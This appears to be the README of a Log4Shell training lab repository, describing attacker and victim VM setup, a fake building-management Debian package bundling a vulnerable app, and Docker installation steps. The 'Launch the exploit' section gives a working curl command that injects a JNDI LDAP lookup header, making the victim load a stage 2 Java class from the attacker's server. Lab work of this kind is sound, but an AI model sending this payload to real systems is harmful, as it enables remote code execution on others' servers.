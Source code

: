 M75-LOG4J-VULNERABILITY
-----------------------

# Overview

![](./images/log4j-explained.webp)

# Project Structure

```
.
├── README.md
├── attacker                        # Attacker related files
│   ├── docker-compose.yml          # used to build and run the payload-generator, ldap server and http server containers
│   ├── http-dir                    # http server hosted directory
│   │   ├── Plugin.class            # Java class hosted by the http server ready for the victim (stage 2 payload)
│   │   └── fRitPo                  # Linux bash script (stage 3 payload)
│   ├── marshalsec                  # attacker ldap server
│   └── payload-generator           # dockerized payload generator (used to update jave source and compile it)
│       ├── Dockerfile              
│       └── Plugin.src.java         # stage 2 payload source code
├── images                          # README media
└── victim                          # Victim related files
    ├── Makefile                    # Helper script to build the debian package
    ├── buildingmgmt.1.0-2          # fake building management server/app source
    ├── buildingmgmt.1.0-2.deb      # distributable debian package ready for install
    └── log4shell-vulnerable-app    # log4j vulnerable app
```

### References
- [log4shell-dockerlab](https://javarepos.com/lib/ChoiSG-log4shell-dockerlab)

# Usage

## Victim

> Note: The victim must have Java version <=1.8.0_181

1. Download and install older version of Java.

    ```bash
    wget -O /tmp/openjdk-8-jre-headless.deb https://github.com/sintax1/M75-log4j-vuln/blob/master/victim/openjdk-8-jre-headless_8u144-b01-2_amd64.deb?raw=true
    sudo apt install -y /tmp/openjdk-8-jre-headless.deb
    ```

1. Download and install the vulnerable web app.
    ```bash
    sudo apt-get update
    wget -O /tmp/buildingmgmt.deb https://github.com/sintax1/M75-log4j-vuln/blob/master/victim/buildingmgmt_1.0-2_all.deb?raw=true
    sudo apt install -y /tmp/buildingmgmt.deb
    ```

## Attacker

1. clone the source repo onto the attacker VM.

    ```
    git clone https://github.com/sintax1/M75-log4j-vuln.git
    ```

2. Update the configuration (.env)

    ```
    #.env

    export VICTIM_TO_ATTACKER_HTTP_PORT=8081
    export VICTIM_TO_ATTACKER_PUBLIC_IP_OR_DOMAINNAME=10.5.0.4
    export ATTACKER_HTTP_SERVER_PORT=8081
    export ATTACKER_HTTP_DIR=./http-dir
    ```

2. Build and run the docker containers.

    > Note: This requires [docker and docker compose](#installing-docker-and-docker-compose) on the attacker VM

    ```
    cd M75-log4j-vuln/attacker
    docker compose up -d
    ```

3. Launch the exploit.

    ```
    VICTIM=10.5.0.5
    VICTIM_VULN_PORT=8080
    ATTACKER=10.5.0.4
    LDAP_PORT=1389
    STAGE2_JAVA_CLASS_NAME=Plugin
    curl ${VICTIM}:${VICTIM_VULN_PORT} -H 'X-Api-Version: ${jndi:ldap://${ATTACKER}:${LDAP_PORT}/${STAGE2_JAVA_CLASS_NAME}}'
    ```
curl 10.5.0.5:8080 -H 'X-Api-Version: ${jndi:ldap://10.5.0.4:1389/Plugin}'

# Development

## Attacker


## Victim

### Build Java stage 2 payload

> Note: Requires gradle java builder

    ```bash
    cd victim/log4shell-vulnerable-app; gradle bootJar --no-daemon
    cp build/libs/*.jar ../buildingmgmt.1.0-2/building-management.jar
    ```

### Build .deb package

    ```bash
    # Use docker to build so you don't need to install debian build tools locally
    git clone https://github.com/tsaarni/docker-deb-builder.git

    # Build the build cotnainer
    cd docker-deb-builder
    docker build -t docker-deb-builder:20.04 -f Dockerfile-ubuntu-20.04 .

    # create the output dir for the .deb pkg
    mkdir output

    # Build
    ./build -i docker-deb-builder:20.04 -o output <path to debian source>
    ```

### Transfer to the victim and install

    ```bash
    apt install buildingmgmt.*.deb
    ```

# Installing docker and docker compose
```bash
sudo apt update
sudo apt install -y apt-transport-https ca-certificates curl software-properties-common
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu focal stable"
apt-cache policy docker-ce
sudo apt install -y docker-ce

mkdir -p ~/.docker/cli-plugins/
curl -SL https://github.com/docker/compose/releases/download/v2.2.3/docker-compose-linux-x86_64 -o ~/.docker/cli-plugins/docker-compose
chmod +x ~/.docker/cli-plugins/docker-compose
sudo chown $USER /var/run/docker.sock

```